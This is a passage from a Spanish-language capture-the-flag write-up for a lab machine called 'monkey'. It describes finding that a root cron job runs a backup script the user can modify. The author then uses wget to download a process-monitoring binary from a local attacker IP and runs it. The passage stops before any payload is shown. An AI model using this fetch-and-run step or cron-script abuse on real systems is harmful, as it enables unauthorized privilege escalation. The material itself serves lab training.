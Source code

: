         <a href="/imagenes/maquinas/monkey/35.png"><img src="/imagenes/maquinas/monkey/35.png"></a>
</figure>

lo que hace es:
1. Elimina el backup.zip
2. crea un nuevo zip en /var/www/html/monkey/includes
3. da permisos 700 solo para administrador

Yo como usuario `hackermentor` no tengo ningun tipo de permiso sobre el archivo `backup.zip`, el root es quien crea este archivo.

Vemos los permisos de backup.sh
<figure>
        <a href="/imagenes/maquinas/monkey/36.png"><img src="/imagenes/maquinas/monkey/36.png"></a>
</figure>
El script que usa el root para crear el archivo `backup.zip`, es el archivo `backup.sh` el cual yo si tengo permisos de modificación porque soy el dueño.

¿Como ejecuto ese archivo como root? No puedo porque de entrada no puedo ni eliminar el archivo backup.zip no es mio y ejecutar tampoco porque tiene permisos 700.

Como es una tarea programada podemos inturi que cada cierto tiempo se estara creando, para ver los procesos de los cronjobs tenemos el scrip <A HREF="https://github.com/DominicBreuker/pspy/blob/master/docker/Dockerfile.example"> PsPy64 </A>
Descargamos de la misma manera que linpeas con el comando y ejecutamos: 
{% highlight bash %}
hackermentor@monkey:~$ wget http://192.168.254.129:8083/pyps64
hackermentor@monkey:~$ chmod +x pyps64
hackermentor@monkey:~$ ./pyps64
{% endhighlight %}
Esperamos un momento hasta que la tarea programa aparezca
<figure>